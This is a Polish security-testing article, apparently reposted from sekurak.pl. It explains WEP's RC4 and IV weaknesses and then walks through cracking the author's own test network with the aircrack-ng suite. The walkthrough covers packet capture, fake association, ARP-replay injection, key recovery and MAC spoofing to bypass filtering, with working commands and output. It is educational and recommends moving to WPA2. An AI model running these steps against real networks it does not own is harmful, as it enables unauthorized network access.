

# WEP

> Original article: <https://sekurak.pl/bezpieczenstwo-sieci-wi-fi-czesc-3-wep/>

## Wstęp

**Standard Wired Equivalent Privacy** (WEP) został wprowadzony w 1999 roku jako część oryginalnego standardu 802.11. Miało to na celu zapewnienie poufności na poziomie zbliżonym do sieci kablowych. W standardzie używany jest szyfr strumieniowy RC4 dla zapewnienia poufności oraz suma kontrolna CRC-32 dla zapewnienia integralności. Szyfrowanie występuje w dwóch wersjach z różną długością klucza RC4: 64 i 128 bitów. W RC4 tekst jawny jest szyfrowany przy pomocy operacji XOR ze strumieniem klucza, tworząc szyfrogram.

Jako szyfr symetryczny RC4 jest podatny na ataki polegające na analizie danych zaszyfrowanych tym samym kluczem, dlatego strumień klucza nie może się powtarzać. Ze względu na fakt, że klucz RC4 w WEP jest stosunkowo krótki, zdecydowano się na wprowadzenie zabezpieczenia kryptograficznego, polegającego na użyciu tzw. wektora inicjującego (IV). W przypadku WEP jest to 24-bitowa liczba, zmieniana dla każdego transmitowanego pakietu. Jest on konkatenowany wraz z kluczem podanym przez użytkownika (który jest stały), tworząc unikatowy dla każdego pakietu klucz algorytmu RC4. Ze względu na rozmiar IV, długość klucza użytkownika może wynosić 40 bitów (dla klucza RC4 o rozmiarze 64) lub 104 bity (dla klucza RC4 o rozmiarze 128). Z tego powodu formalnie w ramach standardu 802.11 w zależności od długości klucza wyróżniono dwie wersje WEP określane jako WEP-40 i WEP-104.

> Na rynku dostępne są urządzenia pozwalające na użycie klucza o długości 128 lub 232 bitów, dając wraz z 24-bitowym IV 152 lub 256-bitowe klucze RC4. Oba te warianty stanowią jednak rozwiązania własnościowe i nie są częścią oficjalnego standardu 802.11, w związku z czym nie wszyscy producenci je implementują.

Klucz WEP podawany jest jako 10 lub 26 cyfr heksadecymalnych (odpowiednio dla WEP-40 czy WEP-104). Opcjonalnie wprowadzono możliwość podawania klucza jako ciągu znaków ASCII -- w takim jednak wypadku, ze względu na konieczność użycia znaków drukowalnych, rozmiar przestrzeni wszystkich dostępnych kluczy jest znacząco zredukowany.

## Podatności WEP

W przypadku WEP IV miał zabezpieczać przed transmisją danych z użyciem tego samego klucza RC4. Ponieważ jest on zmienny, strona, która wysyła dane i wybiera IV, musi poinformować odbiorcę, jaka jest jego wartość, aby umożliwić odszyfrowanie danych. W związku z tym IV musi być transmitowany w nieszyfrowanej części pakietu. W praktyce okazało się, że w sieciach z dużym ruchem 24-bitowa przestrzeń wartości IV jest niewystarczająca. Prawdopodobieństwo wystąpienia kolizji -- polegającej na powtórzeniu się IV -- wynosi 50% już po odebraniu 5000 pakietów. W przypadku powtórzenia się IV dane są szyfrowanie takim samym kluczem. Ze względu na fakt, że IV transmitowane jest w otwartej formie, można łatwo znaleźć odpowiednie pakiety z takim samym IV. Otworzyło to drogę do ataku określanego jako „related key", wykorzystującego podobieństwa i zależności matematyczne dotyczące użytych kluczy.

W latach 2001--2007 opublikowano wiele prac dotyczących kryptoanalizy i specyficznych własności RC4, dających ostatecznie możliwość odtworzenia klucza tylko z wykorzystaniem pasywnie podsłuchanej komunikacji sieciowej. W 2007 opisano metodę, która jest w stanie odtworzyć 104-bitowy klucz z prawdopodobieństwem 50% po uzyskaniu 40k pakietów. Dla 60k pakietów natomiast prawdopodobieństwo to wynosi już 80%, a dla 85k pakietów -- aż 95%! W przypadku klucza 40-bitowego nawet 20k pakietów może wystarczyć do odzyskania klucza. Ponadto przy pomocy technik takich jak odłączenie klienta i wstrzykiwanie pakietów, uzyskanie 40k pakietów może zająć czas poniżej minuty! Atakującemu, który posiada wymaganą liczbę pakietów, złamanie klucza zajmuje raptem kilka sekund.

W związku z tym zostały podjęte próby „naprawy" WEP przez użycie dłuższych IV lub eliminację tzw. słabych IV (słabe IV sprawiają, że pojawiają się zależności pomiędzy wyjściem RC4, a konkretnymi bajtami klucza). Niestety, ten sposób nie zapewniał uniknięcia innych podatności algorytmu RC4. Słabość klucza sprawia bowiem, że aby był on względnie bezpieczny, powinien być często zmieniany. Problem polega na tym, że klucz szyfrujący jest wprowadzany osobno dla każdego urządzenia w sieci, a jego zmiana wymaga ręcznej rekonfiguracji każdego z nich. Zapewnienie regularnych zmian klucza jest więc praktycznie niewykonalne.

> Ze względu na opisane podatności w 2004 WEP został uznany przez IEEE za standard przestarzały i odradzono jego stosowanie. Dodatkowo w 2008 standard PCI DSS również zakazał od 2010 roku używania WEP w jakichkolwiek fragmentach infrastruktury przetwarzającej dane z kart płatniczych.

## Uwierzytelnianie dostępu do sieci

Wraz z szyfrowaniem transmisji danych w WEP wprowadzono także mechanizm kontroli dostępu do sieci. Każde urządzenie przed przyłączeniem się do sieci musi zostać uwierzytelnione. Dostępne są dwie metody uwierzytelniania:

1. metoda otwarta (Open System Authentication),
2. metoda współdzielonego klucza (Shared Key Authentication).

Pierwsza metoda dopuszcza wszystkie urządzenia znające SSID, zatem można przyjąć to za pewną formalność w dostępie do sieci, gdyż nie daje żadnego zysku w kontekście bezpieczeństwa. Druga wymaga od stacji uwierzytelniającej, aby udowodniła znajomość klucza WEP w procesie „challenge-response", zanim zostanie przyłączona do sieci. Model ten został dobrze opisany na stronie [Netgear](http://documentation.netgear.com/reference/fra/wireless/WirelessNetworkingBasics-3-09.html).

Celem wprowadzonego mechanizmu uwierzytelniania było zapewnienie kontroli dostępu do sieci. Charakter sieci Wi-Fi sprawia jednak, że nie ma potrzeby uwierzytelniania się do sieci, aby móc swobodnie przeprowadzać ataki na użyte mechanizmy szyfrowania. W związku z tym skuteczność uwierzytelniania w tym wydaniu jest ograniczona i podczas prac nad następcą WEP czyli WPA -- zdecydowano się na dużo bardziej zaawansowane rozwiązanie, które odpowiada także za klucze szyfrujące: uwierzytelnianie bazujące na 802.1X.

### Wstrzykiwanie pakietów

Odzyskanie hasła WEP wymaga przechwycenia odpowiednio dużej liczby pakietów z unikatowymi IV. Pierwsze ataki na WEP wymagały od 500k do nawet 1m pakietów. W przypadku niedużego ruchu w sieci może to zająć sporo czasu. Z tego względu opracowano technikę określaną jako wstrzykiwanie pakietów, polegającą na wysyłaniu do sieci nieodszyfrowanych pakietów w taki sposób, aby wymusić generowanie nowych IV.

Pojawia się tylko pytanie, skąd wziąć odpowiedni pakiet, skoro nie umiemy ich odszyfrować? Z pomocą przychodzi protokół ARP odpowiedzialny za translację adresów IP na MAC w sieci lokalnej. Żądania ARP są wysyłane na adres rozgłoszeniowy, mają stałą długość 68 bajtów i często pojawiają się w sieci. Z tego względu można je łatwo wykryć, przechwycić i ponownie przesłać do sieci, bez konieczności rozszyfrowywania. Każde żądanie jest rozgłaszane przez AP i otrzymuje nowy IV. Ten sam pakiet można wysyłać dowolną liczbę razy, zwiększając znacząco liczbę przechwyconych IV.

## Praktyczne testowanie bezpieczeństwa sieci

> Jeśli nadal posiadacie w swojej infrastrukturze sieci zabezpieczone WEP, w tej części artykułu pokażę, jak można sprawdzić ich bezpieczeństwo. Oczywistym jest jednak, że niezależnie od wyniku takiego testu, zalecamy jak najszybsze przejście na WPA2.

### 1. Scenariusz

1. Wybieramy sieć Wi-Fi do testowania, zbierając niezbędne informacje na jej temat.
2. Rozpoczynamy przechwytywanie pakietów zawierających różne IV. Wymagane minimum do złamania hasła zabezpieczającego sieć z WEP-104 to ok. 40k pakietów z IV. Należy jednak pamiętać że może być potrzebne zebranie większej ich liczby.
3. Jeśli ruch w sieci jest za mały, można próbować iniekcji pakietów, które spowodują wygenerowanie dodatkowych pakietów z nowym IV.
4. Klucz WEP zostaje złamany z wykorzystaniem tak zebranych pakietów.
5. Podłączenie się do sieci.

### 2. Zbieranie informacji o sieci

Po przejściu w tryb monitor, przy pomocy poniższych poleceń, rozpoczynam monitorowanie otaczających mnie sieci bezprzewodowych:

```console
adam@debian:~# airmon-ng stop wlan1
adam@debian:~# airmon-ng start wlan1
adam@debian:~# airodump-ng mon0
```

W ten sposób uzyskuję aktualizowany w czasie rzeczywistym wynik skanowania sieci bezprzewodowych z mojego otoczenia:


Do dalszej analizy wybieram moją sieć z następującymi parametrami:

-   ESSID: WEP-test,
-   BSSID: 5C:4C:A9:6B:EC:CD,
-   kanał: 11,
-   dodatkowo, nieco później, potrzebny będzie adres MAC mojej karty sieciowej: 90:F6:52:16:63:23.

### 3. Rozpoczęcie zbierania pakietów z IV

Teraz moim celem jest rozpoczęcie monitorowania ruchu należącego do analizowanej sieci. Dlatego wyłączam tryb monitor skanujący wszystkie kanały:

```console
adam@debian:~# airmon-ng stop mon0
```

Następnie uruchamiam tryb monitor -- już tylko dla kanału, na którym działa analizowana sieć Wi-Fi:

```console
adam@debian:~# airmon-ng start wlan1 11
```
Kolejnym krokiem jest rozpoczęcie przechwytywania pakietów zawierających IV dla „mojej" sieci:

```console
adam@debian:~# airodump-ng -c 11 --bssid 5C:4C:A9:6B:EC:CD -w WEP-test mon0
```

Na poniższym zrzucie ekranu widać analizowaną sieć, a poniżej jednego podłączonego klienta, którym nie jest moja karta sieciowa. Kolumna #Data pokazuje, ile pakietów z IV udało mi się zebrać, a pole #/s pokazuje prędkość przyrostu liczby pakietów.


### 4. Wstrzykiwanie pakietów

Powyżej omówiłem już koncepcję wstrzykiwania pakietów. Należy jednak pamiętać, że AP zaakceptuje tylko pakiety pochodzące od klientów, którzy są przyłączeni do sieci. W związku z tym należy uwierzytelnić i podłączyć swój adres MAC, podszyć się pod adres MAC innego klienta obecnego w sieci lub wykonać tzw. „fałszywe przyłączenie" dowolnego adresu MAC, z którym będę wstrzykiwał pakiety.

> Przyłączenie określane jest jako fałszywe, ponieważ pozwala podszyć się pod dowolny MAC. Do AP musi być podłączony co najmniej jeden klient, abyśmy mogli przechwycić żądania ARP pojawiające się w analizowanej sieci -- ataku tego nie da się przeprowadzić, jeśli do AP nie jest podłączony żaden klient. Po przechwyceniu żądania ARP jego kopia będzie wielokrotnie wstrzykiwana do sieci, generując za każdym razem nowy IV.

Omawiane tutaj fałszywe przyłączenie jest możliwe tylko w modelu otwartej sieci (Open System Authentication). W przypadku uwierzytelniania dostępu do sieci na podstawie współdzielonego klucza (Shared Key Authentication) nie można przeprowadzić tego procesu z powodu nieznajomości klucza WEP. Niestety w przypadku tej sytuacji nie będzie też możliwe wstrzykiwanie pakietów. Pozostaje wtedy cierpliwe oczekiwanie na zebranie takiej liczby IV, aby można było przeprowadzić atak.

Pamiętać trzeba, że nie ma możliwości iniekcji bez przejścia w tryb monitor. Do działań opisywanych w tej części będę zatem używał tej samej karty sieciowej, która nasłuchuje pakietów z IV.

W pierwszej kolejności należy sprawdzić, czy posiadana karta i jej sterownik umożliwiają wstrzykiwanie pakietów:

```console
adam@debian:~# aireplay-ng -9 -e "WEP-test" -a 5C:4C:A9:6B:EC:CD mon0
```

Poniżej widać, że używana karta na to pozwala.

```text
22:54:20 Waiting for beacon frame (BSSID: 5C:4C:A9:6B:EC:CD) on channel 11
22:54:20 Trying broadcast probe requests...
22:54:20 Injection is working!
22:54:22 Found 1 AP
22:54:22 Trying directed probe requests...
22:54:22 5C:4C:A9:6B:EC:CD - channel: 11 - 'WEP-test'
22:54:23 Ping (min/avg/max): 1.217ms/18.078ms/39.319ms Power: -47.10
22:54:23 30/30: 100%
```
 |

Skoro powyższy test wypadł pomyślnie, to można teraz przeprowadzić tzw. „fałszywą asocjację", która -- jeśli się powiedzie -- sprawi, że AP będzie akceptował pakiety wysyłane przez moją kartę sieciową.

```console
adam@debian:~# aireplay-ng -1 0 -e "WEP-test" -a 5C:4C:A9:6B:EC:CD -h 90:f6:52:16:63:23 mon0
```

Poniższy wynik świadczy o powodzeniu wcześniejszych operacji:

```text
22:55:38 Waiting for beacon frame (BSSID: 5C:4C:A9:6B:EC:CD) on channel 11

22:55:38 Sending Authentication Request (Open System) [ACK]
22:55:38 Authentication successful
22:55:38 Sending Association Request [ACK]
22:55:38 Association successful :-) (AID: 1)
```

W tym momencie można już uruchomić polecenie, które rozpocznie nasłuch odpowiedniego pakietu ARP.

```console
adam@debian:~# aireplay-ng -3 -b 5C:4C:A9:6B:EC:CD -h 90:f6:52:16:63:23 mon0
```

Chwila oczekiwania na pojawienie się żądania ARP w sieci, a po jego przechwyceniu rozpoczyna się wstrzykiwane z prędkością 500 pakietów na sekundę:

```text
22:56:46 Waiting for beacon frame (BSSID: 5C:4C:A9:6B:EC:CD) on channel 11
Saving ARP requests in replay_arp-0816-225646.cap
You should also start airodump-ng to capture replies.
Read 938 packets (got 427 ARP requests and 334 ACKs), send 397 packets...(500 pps)
```

Efekt pracy jest od razu widoczny w wynikach prezentowanych przez program przechwytujący jako zwiększenie prędkości przyrostu pakietów do ponad 400/s.


W przypadku gdy znamy adres MAC jednego z klientów aktualnie użytkujących sieć, można spróbować pominąć „fałszywą asocjację" i użyć tego adresu MAC w procesie wstrzykiwania.

### 5. Łamanie hasła

Łamanie hasła WEP uruchamia się następującym poleceniem.

```console
adam@debian:~# aircrack-ng -s -b 5C:4C:A9:6B:EC:CD WEP-test*.cap
```
Sam proces łamania zajmuje zaledwie kilkadziesiąt sekund. W przypadku zbyt małej liczby pakietów program wyświetli odpowiedni komunikat i będzie czekać na zwiększenie się liczby pakietów w pliku ze zrzutem. Łamanie klucza rozpocznie się automatycznie po uzyskaniu kolejnych 5k pakietów. W związku z tym najlepiej od razu uruchomić powyższe polecenie i cierpliwie czekać.



W przypadku sukcesu uzyskuję hasło do sieci, co widać poniżej:


Niestety w moim przypadku aircrack potrzebował prawie 0.6 miliona pakietów do złamania hasła. Należy jednak pamiętać o tym, że takie sytuacje należą do rzadkości, a standardowa liczba potrzebnych pakietów to zazwyczaj ok. 50k.

### 6. Podłączenie się do sieci

W tym miejscu w zależności od tego, czy w sieci wdrożono filtrowanie adresów MAC czy też nie, możliwe są 2 scenariusze.

1. Jeżeli dopuszczone jest podłączenie dowolnego urządzenia, aby nawiązać połączenie, wystarczy użyć następującego zestawu poleceń:

    ```console
    adam@debian:~# airmon-ng stop mon0
    adam@debian:~# iwconfig wlan1 essid WEP-test key s:TestoweHaslo1
    adam@debian:~# iwconfig wlan1
    wlan1 IEEE 802.11bgn ESSID:"WEP-test"

    Mode:Managed Access Point: 5C:4C:A9:6B:EC:CD
    Bit Rate=54 Mb/s Tx-Power=20 dBm
    Retry long limit:7 RTS thr:off Fragment thr:off
    Encryption key:5465-7374-6F77-6548-6173-6C6F-31
    Power Management:on
    Link Quality=67/70 Signal level=-43 dBm
    Rx invalid nwid:0 Rx invalid crypt:0 Rx invalid frag:0
    Tx excessive retries:687 Invalid misc:693 Missed beacon:0

    adam@debian:~# dhclient wlan1
    adam@debian:~# ifconfig wlan1
    wlan1 Link encap:Ethernet HWaddr 90:f6:52:16:63:23

    inet addr:192.168.202.39 Bcast:192.168.202.63 Mask:255.255.255.192
    inet6 addr: fe80::92f6:52ff:fe16:6323/64 Scope:Link
    UP BROADCAST RUNNING MULTICAST TMU:1500 Metric:1
    RX packets:18 errors:0 dropped:0 overruns:0 frame:0
    TX packets:25 errors:0 dropped:0 overrruns:0 carrier:0
    collisions:0 txqueuelen:1000
    RX bytes:2440 (2.3 KiB) Tx bytes:5421 (5.2 KiB)
    ```

    Jeżeli zaś wdrożono filtrowanie MAC, konieczna jest znajomość dopuszczalnego adresu. Nasłuchując komunikacji w sieci przy pomocy polecenia airodump-ng, można znaleźć autoryzowane urządzenie. Po odłączeniu go od sieci, należy zmienić swój adres MAC na taki, który jest autoryzowany i wykonać powyższe kroki.

    Zmiana adresu MAC jest możliwa przy pomocy następującego zestawu poleceń:

    ```console
    adam@debian:~# ifconfig wlan1 down
    adam@debian:~# ifconfig wlan1 hw ether USTAWIANY_MAC
    adam@debian:~# ifconfig wlan1 up
    ```

## Podsumowanie

W tej części cyklu przedstawiłem mechanizm działania WEP, a także jego wpływ na bezpieczeństwo użytkowników sieci. Przedstawiony mechanizm ataku pokazuje, jak poważny jest problem, ponieważ nie ma możliwości naprawy błędów popełnionych przy projektowaniu WEP. W tekście omówiłem krok po kroku podstawowy atak, jednak mogą pojawić się sytuacje, w których nie będzie możliwości jego zastosowania.

Zainteresowanym lekturą tym tematem polecam dokumentację pakietu aircrack-ng opisującą różne scenariusze:

-   w przypadku braku klientów w sieci, nie ma możliwości przechwycenia żądania ARP i [trzeba samemu wygenerować taki pakiet](http://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_with_no_clients)**;**
-   w przypadku problemów z atakiem na AP (np. brak możliwości wykonania fałszywego uwierzytelnienia, brak AP w zasięgu, słaba wydajność AP, etc) [można próbować przeprowadzić atak z użyciem innego klienta sieci](http://www.aircrack-ng.org/doku.php?id=how_to_crack_wep_via_a_wireless_client);
-   w przypadku użycia uwierzytelniania w modelu współdzielonego klucza (Shared Key Authentication) nie ma możliwości wykonania fałszywego uwierzytelnienia i rozpoczęcia wstrzykiwania pakietów, w taki sposób jak opisano to w tekście, ponieważ nie jest znany klucz WEP; [jednak istnieją metody pozwalające pokonać to ograniczenie](http://www.aircrack-ng.org/doku.php?id=shared_key).

--- *Adam Smutnicki*
